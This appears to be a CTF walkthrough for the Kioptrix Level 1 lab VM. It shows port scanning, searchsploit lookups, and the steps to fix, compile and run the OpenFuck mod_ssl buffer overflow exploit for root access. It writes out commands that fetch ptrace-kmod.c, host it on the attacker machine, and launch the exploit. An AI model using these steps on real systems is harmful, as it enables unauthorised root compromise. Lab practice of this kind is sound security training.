 # KIOPTRIX level1--Walkthrough


### Initial Port-Scan
----
- I usually like to scan the entire machine just incase they like to be sneaky and open a service on a random port number.
- port 139 was open so i quickly tried to access the shares but couldnt, kept getting denied. Used smbmap,enum4linux and tried connecting directly to the port using smbclient which didnt provide much help.

![alt text](https://github.com/pg-cy/CTF-Walkthrough/blob/main/Kioptrix_level1/Images/nmapscan.png "network scan")

**********

- From here i like to search for version exploits because some are easy to spot right away, especially if it looks really outdated.
- Using the command line searchsploit to look up "apache httpd" hoping there be an exploit for apache v1.3.20 but nothing stood out to me.
- I then used searchsploit to look up "apache mod_ssl" to look for exploits against apache mod_ssl v2.8.4

![alt text](https://github.com/pg-cy/CTF-Walkthrough/blob/main/Kioptrix_level1/Images/searchsploit.png "searching exploit")

- From the screenshot it looks like there is an exploit available apache mod_ssl v2.8.7 or a lower remote buffer overflow. I will give this exploit a try. I copied the exploit "cp /usr/share/exploitdb/exploits/unix/remote/764.c" to another directory.

### Fixing the exploit
- This exploit was quite difficult to run at the start, had to do a lot of googling because i kept running into errors when trying to compile it. 
- First you need to download the ptrace-kmod.c, you can use wget to download.  "wget  https://dl.packetstormsecurity.net/0304-exploits/ptrace-kmod.c" 
- Reading the mod_ssl exploit File (764.c) it says to compile using syntax  "gcc -o OpenFuck OpenFuck.c -lcrypto". When trying to compile it will give you errors. Before compiling again we need to make a few changes. First you need to add these two lines of code at the top of "764.c".

![alt text](https://github.com/pg-cy/CTF-Walkthrough/blob/main/Kioptrix_level1/Images/fixing_exploit1.png)
- The exploit will also try to download the ptrace-kmod.c from the Internet. Since were running the Kioptrix machine on our home network we do not want it to have access to the internet. So instead the exploit will download the ptrace-kmod.c from our own attack machine (hence why we downloaded the ptrace-kmod.c at the start).
- Replace this HTTP site seen below with our own webserver. (We will use python to spin up a quick webserver to host our ptrace-kmod.c)
- To spin up a quick python webserver, be in the same folder as the ptrace-kmod.c file and use the command `python3 -m http.server 5555` In this case im using port 5555 on my attacker machine. use whatever port you want, just make sure its the same port in the file we just edited. 

![alt text](https://github.com/pg-cy/CTF-Walkthrough/blob/main/Kioptrix_level1/Images/replace.png) replace this
![alt text](https://github.com/pg-cy/CTF-Walkthrough/blob/main/Kioptrix_level1/Images/fixing_exploit2.png)

### Running the exploit
- Now we can compile our exploit. "gcc  -o  exploit  764.c  -lcrypto"
- Trying to execute our new exploit will show instructions on proper syntax. It needs to know the apache version & operating system to use, along with the IP address, port, and -c 40-50.
- Looking at the options our exploit syntax is  "./exploit 0x6b  10.0.2.9   443  -c 40"
_____
- Now we have full access to the machine, with root privileges   
![alt text](https://github.com/pg-cy/CTF-Walkthrough/blob/main/Kioptrix_level1/Images/root.png)


